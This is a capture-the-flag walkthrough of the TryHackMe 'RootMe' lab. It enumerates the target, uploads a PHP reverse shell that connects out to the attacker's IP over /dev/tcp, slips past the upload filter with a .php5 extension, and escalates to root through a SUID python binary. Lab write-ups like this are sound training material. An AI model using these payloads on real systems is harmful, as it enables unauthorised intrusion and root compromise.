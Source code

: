 # RootMe Walkthrough:

## Enumeration

### NMap:
	
The first thing I did was perform a port scan on the IP address of the machine, and directed the output to a file called "nmapout.txt":
	
```shell
sudo nmap -sS -vv -sV -sC -oN nmapout.txt {MACHINE_IP}
```

Showed the following ports:

```	
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
```
	
Since port 80 is open, I checked out the MACHINE_IP in the browser:
	
![home page](./screenshots/rootmehome.png)

Pretty cool looking, but nothing of interest on the page or the source code.

### GoBuster:

Let's try enumerating the subdirectories of this site, and see if we find anything interesting.

I used Gobuster, here is the code I ran:

```shell	
gobuster -e -u {MACHINE_IP} -w dir_wordlist.txt -x .php,.txt,.js,.html
```

The scan returned the following:

```	
http://{MACHINE_IP}/index.php 
http://{MACHINE_IP}/uploads 
http://{MACHINE_IP}/css 
http://{MACHINE_IP}/js 
http://{MACHINE_IP}/panel 
```

## Site Exploration:

I visited the **/panel** page, and got this:
	
![Panel Page](./screenshots/panel.png)

Now we are talking! We have some kind of an upload page. I tried uploading a simple text file to see what happens:
	
![Upload Success](./screenshots/uploadsuccess.png)

Okay, awesome! We can upload files. I'm thinking I should try to get a reverse-shell going with a file upload. I looked up some reverse shell scripts on [This site](https://highon.coffee/blog/reverse-shell-cheat-sheet/).

I ended up choosing a PHP script, since I saw that the site has an **index.php** page. Here is the script:
	
```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/{THM_VPN_IP}/443 0>&1'");?>
```

A quick explanationof a few things about this script: In order for this script to work, you need to set up a NetCat listener(I will do this later). You will change the {THM_VPN_IP} to match your VPN ID on TryHackMe. You will need the NetCat listener to be listening on the same port as the script (**443**)

Anyway, I copied the script into a file called **reverseshell.php**, and then I tried to upload it, and this happened:
	
![PHP Not Permitted](./screenshots/phpnotpermitted.png)

Well, that is disappointing! It doesn't allow me to upload PHP files. 

We may still be able to load the script by changing the name of the extension. PHP has a few different extensions that can be used, and if this program isn't set up to reject them, we might be able to load this script. More information about file upload bypass [here](https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass)

So I renamed the file to **reverseshell.php5** and tried again:
	
![File Upload Success](./screenshots/uploadsuccess.png)

It worked! Now I will set up a listener on NetCat, and then open the file.

First, here is how to set up a listener on NetCat:
	
```shell
sudo nc -nlvp 443
```

Remember, **443** is the port mentioned on the script that we uploaded earlier. The terminal now says:
	
```
Listening on 0.0.0.0 443
```
 
Now we just open the file by clicking on the **"Veja!"** at the bottom of the screen. Now when I looked back at my terminal:
	
```
www-data@rootme:/var/www/html/uploads$ 
```

## Finding the Flags:

We have a shell!

Now, let's see if I can find the **user.txt** file:
	
```shell
find / -type f -name 'user.txt' 2>/dev/null

/var/www/user.txt
```

There it is! Let's see what it says:
	
```
THM{y0u_g0t_a_sh3ll}
```

That's our User Flag. Let's see if we can do a privelege escalation.

## Privelege Escalation:

In order to find a privelege escalation vector, I did a search for all files in the system that have the **SUID** bit set. This means that the given program will be run with the owner priveleges when it is ran. These files with the **SUID** bit set can be quite dangerous, because they can be run with elevated priveleges.

Here is the command I ran to find the **SUID** files:
	
```
find / -type f -perm /4000 2>/dev/null
```

Received the following(the output was much larger than this, I cut out most of it to focus on the interesting part):
	
```
...
/usr/bin/chsh
/usr/bin/python <-- this one is interesting!
/usr/bin/at
/usr/bin/chfn
...
```

The **python** binary caught my attention. I looked up an exploit on [GTFOBins](https://gtfobins.github.io/gtfobins/python/#suid)

I changed to the **/usr/bin/** directory, and ran the following:
	
```
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
root
```

Now I am root! Now just find the **root.txt** file:
	
```
find / -type f -name 'root.txt' 2>/dev/null
/root/root.txt
```

Here are the contents of **root.txt**:
	
```
THM{pr1v1l3g3_3sc4l4t10n}
```

...And we are done! I hope you enjoyed and found this helpful!
